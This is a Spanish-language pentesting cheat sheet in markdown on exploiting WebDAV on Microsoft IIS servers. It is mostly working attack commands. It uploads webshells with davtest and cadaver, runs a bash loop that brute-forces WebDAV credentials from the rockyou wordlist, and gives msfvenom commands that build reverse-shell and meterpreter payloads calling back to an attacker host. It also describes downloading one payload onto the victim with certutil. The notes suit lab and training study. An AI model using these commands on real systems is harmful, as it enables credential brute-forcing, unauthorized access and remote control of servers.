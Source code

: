 # Explotación de WebDAV en IIS

Tags: #IIS #WebDav #Servidor #Windows 

* IIS = Internet Information Services y  es un servidor web para el sistema operativo Windows.
	* Soporta extensiones de archivos ejecutables:
		* .asp
		* .aspx
		* .config
		* .php

```bash 
❯ browsh --startup-url http://IP/Default.aspx/    # Enumeracion del buscador de un IIS en forma de GUI
```

Necesitamos credenciales validas para poder entrar al WebDav en la web
```bash 
❯ http://IP/webdav/
```

## Webshell en un IIS

```bash 
/usr/share/webshells/                # Ruta de la Webshell, estas son aplicaciones que se ejecutan en la web de forma interactiva y asi poder ejecutar comandos 

	# asp, aspx, cfm, jsp, laudanum, perl, php, seclists
```

## Davtest

```bash 
* davtest           # Usada para escanear, autenticar y explotar un WebDAV
* cadaver           # Soporta la subida y bajada de archivos, visualizacion, editar, mover/copiar, borrar, manipular y bloqueo.
```

Esta tool crea un directorio en el servidor y va subiendo archivos con diferentes extensiones además de ver cuales se pueden ejecutar. 
```bash 
❯ davtest -auth <user>:<passwd> -url http://IP/webdav    # Necesitamos credenciales validas, y nos checara que tipo de archivos puedes subir y ejecutar en el servidor 
```

```bash 
❯ cadaver http://IP/webdav           # Puedes acceder al contenido del servidor WebDAB, te preguntara las credenciales, esta tool te desplegara una consola
	❯ put /usr/share/webshells/asp/webshell.asp      # Asi subimos la webshell al servidor Webdav
```

```bash 
❯ davtest -url http://127.0.0.1 -auth admin:admin     # Debemos de tener el usuario y passwd validos para poder usar la tool

	# 1er admin = Usuario 
	# 2do admin = passwd

❯ cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succed); if [ $response ]; then echo "[+] La passwd correcta es: $password"; break; fi; done

# Ataque de Fuerza Bruta para encontrar la passwd con el comando davtest

❯ cadaver http://127.0.0.1     # Sirve para subir archivos, descargar contenido, etc... Debemos de tener el usaurio y passwd validos para la autenticacion 
	❯ mkdri test              # Podriamos crearnos dir en los cuales podemos colocar un recurso 
	❯ cd test 
	❯ put webdav.txt          # Podemos subir un archivo 
```

## Crear archivos maliciosos para un Webdav  

```bash 
# Estos archivos son el equivalente de un archivo cmd.php en un servidor Apache de Linux que te crean una Revershell. Para los aspx/asp funcionan como una Revershell pero para un IIS en Windows.

❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f aspx -o reverse.aspx    # Stageless 
	# Si la maquina no es x64, podemos quitar esa parte en el payload y convertirla a x86
	# Recibiremos la Revershell con 'Netcat'

❯ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f exe -o reverse.exe  # Stageless  
	# Recibiremos la Revershell con 'Metasploit' usando el modulo de 'multi_handler' y nos dara una consola con 'Meterpreter'
	# Esta Revershell la transferiremos desde nuestra maquina de atacante con python3 y en la maquina victima lo descargaremos con 'Certutil.exe' en el dir 'C:\Users\Public\Downloads' para despues ejecutarlo y obtener la Revershell
	# En 'Metasploit' cuando usamos el 'multi_handler' debemos de cambiar al 'Payload' que colocamos en el comando 
	# Esto lo hacemos en las maquinas Windows  
	

❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f asp > shell.asp
	# p = PLayload 
	# f = Formato

❯ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f aspx > shell.aspx
```